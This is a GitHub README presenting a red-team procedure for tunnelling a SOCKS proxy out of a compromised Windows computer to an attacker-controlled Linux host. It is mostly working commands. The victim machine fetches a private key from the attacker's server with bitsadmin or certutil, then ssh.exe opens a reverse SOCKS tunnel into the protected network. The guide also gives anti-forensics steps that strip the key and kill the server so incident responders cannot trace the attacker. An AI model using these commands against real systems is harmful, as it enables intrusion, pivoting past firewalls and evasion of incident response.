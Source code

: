 # win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for SSH tunneling to a Socks proxy on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.<br /><br />
  `cd /root`<br /><br />
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`<br /><br />
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`<br /><br />
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.<br /><br />
  `python -m SimpleHTTPServer 80`<br />

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.<br /><br />
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).<br /><br />
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`<br />

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to `https://10.1.2.4`

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.

When you are finished and want to terminate the reverse proxy, issue the following command on the attacker host (A).

`kill $(lsof -t -i:1080)`
